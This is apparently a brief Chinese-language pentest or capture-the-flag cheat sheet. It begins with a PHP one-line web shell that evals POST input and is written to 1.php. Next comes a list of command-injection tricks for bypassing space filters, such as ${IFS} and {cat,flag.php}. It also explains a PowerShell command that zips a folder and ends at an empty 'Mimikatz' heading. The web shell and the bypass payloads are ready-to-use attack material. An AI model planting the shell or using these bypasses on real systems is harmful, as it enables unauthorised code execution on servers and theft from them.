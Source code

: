 ## php的

```
echo \<\?php eval\(\@\$_POST\[1\]\)\; \?\> >1.php
```

## 绕过空格

```
> < <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php}
%20
%09
```

# windows打包目录

```
powershell -Command "Compress-Archive -Path E:\update\ -DestinationPath E:\test.zip"
```

![截图](80f64d47fbfe9d8b93a748081afc102f.png)

> `powershell`：这是命令行中启动 PowerShell 的关键词。
> 
> `-Command`：这个标志告诉 PowerShell 解释器，后面的字符串是一个要执行的 PowerShell 命令。
> 
> `"Compress-Archive -Path E:\update\ -DestinationPath E:\test.zip"`：这个字符串是要执行的 PowerShell 命令。它调用了 Compress-Archive cmdlet，并传递了两个参数：
> 
> - `-Path E:\update\`：这是要压缩的文件或文件夹的路径。在这个例子中，路径是 E 盘下的 update 文件夹。
> 
> - `-DestinationPath E:\test.zip`：这是压缩后的归档文件的保存路径和文件名。在这个例子中，归档文件将保存在 E 盘的根目录下，并命名为 test.zip。
> 
> 因此，这个命令的作用是将 E 盘下的 update 文件夹中的内容压缩成一个名为 test.zip 的 Zip 归档文件，该文件将保存在 E 盘的根目录下。

# Mimikatz
